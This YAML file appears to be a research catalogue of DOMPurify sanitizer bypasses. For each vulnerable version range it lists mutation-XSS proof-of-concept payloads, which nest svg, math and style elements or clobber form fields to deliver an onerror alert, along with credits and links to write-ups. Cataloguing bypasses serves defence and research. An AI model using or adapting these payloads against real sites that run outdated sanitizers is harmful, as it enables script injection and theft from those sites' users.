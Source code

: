 ```yaml
---
description: DOMPurify - a DOM-only, super-fast, uber-tolerant XSS sanitizer for HTML, MathML and SVG. DOMPurify works with a secure default, but offers a lot of configurability and hooks. https://cure53.de/purify
github: cure53/DOMPurify
gadgets:
  ≤3.1.2:
    authors:
      - twitter:kevin_mizu
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <form id="x ">
          <r*504>
          <a>
            <svg>
              <desc>
                <svg>
                  <image>
                    <a>
                      <desc>
                        <svg>
                          <image></image>
                        </svg>
                      </desc>
                    </a>
                  </image>
                  <style><a id="</style><img src=x onerror=alert(1)>"></a></style>
                </svg>
              </desc>
            </svg>
          </a>
          </form>
          <input form="x" name="__depth">
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=27b201c4-9ba9-454a-b92c-ad6f87168040
    links:
      - https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#dompurify-3.1.2-bypass
  ≤3.1.1:
    authors:
      - twitter:kevin_mizu
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <div*200>
          <form><input name="parentNode">
          <div*200>
          <form></form><form><input name="parentNode">
          <div*105>
          <table>
            <caption>
              <svg>
                <desc>
                  <table><caption></caption></table>
                </desc>
                <style><a title="</svg></style><img src onerror=alert(1)>"></a></style>
                </svg>
            </caption>
          </table>
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=bc4910dd-3c0f-4125-952b-20320468ef2d
    links:
      - https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#dompurify-3.1.1-bypass
  ≤3.1.0:
    authors:
      - twitter:IcesFont
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <div*506>
          <table>
            <caption>
              <svg>
                <title>
                  <table><caption></caption></table>
                </title>
                <style><a id="</style><img src=x onerror=alert()>"></a></style>
              </svg>
            </caption>
          </table>
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=aeb6a690-58b9-47c6-b2ca-99c07f9db43b
    links:
      - https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#dompurify-3.1.0-bypass
  ≤2.2.2:
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <math><mtext><h1><a><h6></a></h6><mglyph><svg><mtext><style><a title="</style><img src onerror='alert(1)'>"></style></h1>
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=15b5b74c-1c36-4df7-9bc6-2fccfc891683
    links:
      - https://github.com/cure53/DOMPurify/commit/8ab47b0a694022b396e30b7f643e28971f75f5d8
  ≤2.2.0:
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <form><math><mtext></form><form><mglyph><svg><mtext><style><path id="</style><img onerror=alert(1) src>">
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=eff07c77-918a-4399-b92f-732095e3e9d4
    links:
      - https://github.com/cure53/DOMPurify/issues/482
      - https://vovohelo.medium.com/from-svg-and-back-yet-another-mutation-xss-via-namespace-confusion-for-dompurify-2-2-2-bypass-5d9ae8b1878f
  ≤2.0.16:
    authors:
      - twitter:garethheyes
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <math><mtext><table><mglyph><style><!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=249819f1-732f-4edf-b7ba-866ebcf358d8
    links:
      - https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
  ≤2.0.15:
    authors:
      - twitter:securitymb
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - func-call-parameter
    pocs:
      - description: Default configuration bypass.
        code: |
          <form><math><mtext></form><form><mglyph><style></math><img src onerror=alert(1)>
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=a0b5393e-c9b1-4717-90cc-de2bb405afa4
      - code: |
          <math><mtext><table><mglyph><style><math><table id="</table>"><img src onerror=alert(1)">
        preview: https://yeswehack.github.io/Dom-Explorer/shared?id=36a7d20f-f042-44fe-bdd9-11b97773517e
    links:
      - https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss
  ≤2.0.0:
    cve: CVE-2019-16728
    authors:
      - twitter:securitymb
    tags:
      - func-call-parameter
    pocs:
      - description: |
          Default configuration bypass.
          
          This bypass **no longer works** since `<` and `>` are now encoded when serializing a DOM Tree (<a target="_blank" href="https://github.com/whatwg/html/pull/6362">spec</a>, <a target="_blank" href="https://developer.chrome.com/blog/escape-attributes">chromium</a>, <a target="_blank" href="https://webkit.org/blog/17092/release-notes-for-safari-technology-preview-221/#:~:text=Fixed%20escaping">safari</a>, firefox) making "attribute" based mXSS no longer possible...
        code: |
          <svg></p><style><a id="</style><img src=1 onerror=alert(1)>">
        preview: false
      - code: |
          <math></p><style><a id="</style><img src=1 onerror=alert(1)>">
        preview: false
    links:
      - https://research.securitum.com/dompurify-bypass-using-mxss/
---
```

